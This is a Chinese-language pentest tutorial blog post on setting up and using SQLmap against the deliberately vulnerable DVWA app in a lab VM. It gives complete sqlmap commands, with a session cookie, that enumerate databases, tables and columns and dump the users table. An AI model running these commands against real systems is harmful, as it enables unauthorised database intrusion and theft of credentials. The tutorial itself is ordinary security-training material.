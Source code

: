 ```yaml
---
author: 星火燎原@vxhly
title: 渗透工具用法（一）SQLmap 的用法
categories: [pentest]
tags: [Security, Liunx, Python, Pentest]
date: 2016-09-20 10:46:46
---
```


::: tip 前言
此系列笔记是网络渗透工具的使用方法, 本篇是介绍 SQL 注入工具 SQLmap 的使用方法。SQLmap 是一款用来检测与利用 SQL 注入漏洞的免费开源工具, 有一个非常棒的特性, 即对检测与利用的自动化处理（数据库指纹、访问底层文件系统、执行命令）
:::
<!-- more -->

## SQLmap 环境

::: tip 提示
由于 `kali Liunx` 已经集成了 SQLmap 的环境, 这里就直接介绍 `Windows` 下环境的构建。
:::

### 先安装 Python

正常情况下我们安装 `2.7.x` 就好了。

[Python 官网下载地址](http://www.python.org/getit/)

接下来只需在环境变量 `path` 中添加 Python 的安装路径就好了。<br>

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-1.png)

### 再安装 SQLmap

[SQLmap 官网下载地址](http://sqlmap.org/)

将 SQLmap 解压至 Python 目录下, 将 SQLmap 的程序目录重命名为 sqlmap。

#### 在桌面新建快捷方式

`For Example:` 

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-2.png)

<br>

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-3.png)

<br>

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-4.png)

## DVWA 环境

DVWA(Dam Vulnerable Web Application) 使用 `PHP+Mysql` 编写的一套用于常规 WEB 漏洞教学和检测的 WEB 脆弱性测试程序。包含 SQL 注入、XSS、盲注等常见的一些漏洞。

[DVWA GitHub 下载地址](http://github.com/ethicalhack3r/DVWA)

在 `Windows` 下还需安装 `PHP` 环境, 这里推介两个 `PHP` 集成环境。

[upupw PHP 集成环境](http://www.upupw.net/) 
[phpStudy PHP 集成环境](http://www.phpstudy.net/)

接下来只需修改一下配置文件就好了。

## SQlmap 使用方法

`Windows` 下跟 `kali Liunx` 下使用方法不相同。

为方便演示, 我们创建两个虚拟机: 

* 受害者机器, `Windows 2003` 操作系统, 运行一个 WEB 服务器, 同时跑着一个包含漏洞的 WEB 应用（DVWA）。
* 攻击器机器, 使用 `kali Liunx` 或者其他版本的 `Windows` 包含 SQLmap 程序。

本次实验的目的: 使用 SQLmap 得到以下信息: 

* 枚举 MYSQL 用户名与密码。
* 枚举所有数据库。
* 枚举指定数据库的数据表。
* 枚举指定数据表中的所有用户名与密码。

### 查看帮助

`Windows: ` 查看 Python 帮助命令

``` bash
python sqlmap.py -h
```

`kali Liunx: ` 查看 Python 帮助命令

``` bash
sqlmap -h
```

::: warning 注意
需要注意的是 `Windows` 下的选项和 `kali Liunx` 下的选项是一致的, 但是命令是不一致的。在 `Windows` 下使用 `python sqlmap.py` , 而在 `kali Liunx` 下使用的是 `sqlmap` 。
:::

### 选项解释

* **--cookie** => 设置我们的 cookie 值 "将 DVWA 安全等级设置为 low"
* **--data** => 设置 POST 提交的值, 如果是 GET 提交, 不需要此选项
* **-u** => 指定目标 URL
* **-b** => 获取 DBMS banner
* **--current-db** => 获取当前数据库
* **--current-user** => 获取当前数据库的用户
* **--tables** => 获取数据库里所有的表名
* **--columns** => 获取表里的所有字段
* **--dump** => 获取值
* **--current-user** => 获取当前用户
* **-D** => 爆库指定数据库名
* **-T** => 爆库指定表名
* **-C** => 爆库指定字段名
* **--string** => 当查询可用时用来匹配页面中的字符串
* **--users** => 枚举 DBMS 用户
* **--password** => 枚举 DBMS 用户密码 hash
* **--dbs** => 枚举 DBMS 中的数据库

## 开始爆库

由于 `Windows` 和 `kali Liunx` 的做法基本一致, 这里以 `kali Liunx` 为例。DVWA 的难度为 low。

### 先获取 Cookie

每一次的 Cookie 都不一样, 这里是个示范。

`For Example:` <br>

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-5.png)

### 获取数据库, --current-db

`For Example:` 

``` bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" --current-db
```

URL 地址和 Cookie 请用真实的替换掉。这条命令可以把当前所有的数据库获取出来的。注意 `--current-db` 的 `-` 可是有两个的。

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-6.png)

### 获取表, --tables

前面, 我们已经获取到数据库名, 这时候我们要指定数据库名。使用 `-D` 选项指定数据库名。注意 `--tables` 的 `-` 可是有两个的。

`For Example:` 

``` bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" -D 'dvwa' --tables
```

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-7.png)

### 获取字段, --columns

::: tip 提示
前面, 我们已经获取到数据库名和表名了, 这时候我们要指定数据库名和表名。使用 `-D` 选项指定数据库名, 使用 `-T` 指定表名。这里我们选择表 `users` 。注意 `--columns` 的 `-` 可是有两个的。
:::

`For Example:` 

``` bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" -D 'dvwa' -T 'users' --columns
```

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-8.png)

### 获取数据, --dump

::: tip 提示
前面, 我们已经获取到数据库名、表名还有字段名了, 这时候我们要指定数据库名、表名还有字段名。使用 `-D` 选项指定数据库名, 使用 `-T` 指定表名, 使用 `-C` 指定字段名。这里我们选择表 `users` 中的字段 `user_id` 。注意 `--dump` 的 `-` 可是有两个的。
:::

`For Example:` 

``` bash
sqlmap -u "//192.168.79.132/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=austaukdtb8jq2919eideuqkp3;security=low" -D 'dvwa' -T 'users' -C 'user_id' --dump
```

![SQLmap](http://oss-blog.test.upcdn.net/sqlmap-9.png)

